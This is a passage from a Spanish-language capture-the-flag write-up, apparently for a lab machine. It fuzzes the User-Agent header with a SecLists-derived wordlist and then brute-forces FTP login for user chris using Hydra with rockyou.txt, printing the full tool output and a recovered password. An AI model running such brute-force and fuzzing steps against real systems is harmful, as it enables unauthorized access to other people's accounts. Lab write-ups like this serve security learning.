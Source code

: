 ```bash
❯ cat /usr/share/seclists/Fuzzing/char.txt | tr a-z A-Z > dicc.txt
```

Establecemos la posición del payload en el valor del encabezado User-Agent.

![position](position.png)

En el apartado de Payloads, cargamos el diccionario previamente creado haciendo clic en el botón "Load..." y seleccionando el archivo correspondiente.

![payload](payload.png)

Iniciamos el ataque haciendo clic en el botón "Start Attack" y observamos los resultados obtenidos a continuación.

![results](results.png)

Como podemos observar, hemos obtenido dos respuestas interesantes que difieren del resto. En particular, la respuesta número 18 muestra el siguiente mensaje:

![18](18.png)

Por otro lado, en la respuesta número 3 hemos obtenido una redirección a un recurso con extensión `.php`, en el cual se nos muestra el siguiente mensaje: 

![3](3.png)

El mensaje revela información sobre el posible nombre del agente C, que sería **Chris**, y su contraseña, que es devil.

### FTP - 21

Dado que el servicio FTP está activo y tenemos conocimiento de que la contraseña del usuario **chris** es devil, podemos intentar realizar un ataque de fuerza bruta utilizando la herramienta **Hydra** para ver si tenemos suerte y podemos acceder al servicio.

```bash
❯ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.227.15 ftp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (<https://github.com/vanhauser-thc/thc-hydra>) starting at 2023-05-26 23:45:52
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking <ftp://10.10.227.15:21/>
[STATUS] 240.00 tries/min, 240 tries in 00:01h, 14344159 to do in 996:08h, 16 active
[21][ftp] host: 10.10.227.15   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (<https://github.com/vanhauser-thc/thc-hydra>) finished at 2023-05-26 23:47:01
```

Excelente, al obtener la contraseña del usuario **chris** para el servicio FTP, ahora podemos proceder a conectarnos al servidor. Después de iniciar sesión con las credenciales proporcionadas, al listar los archivos, obtenemos el siguiente resultado:
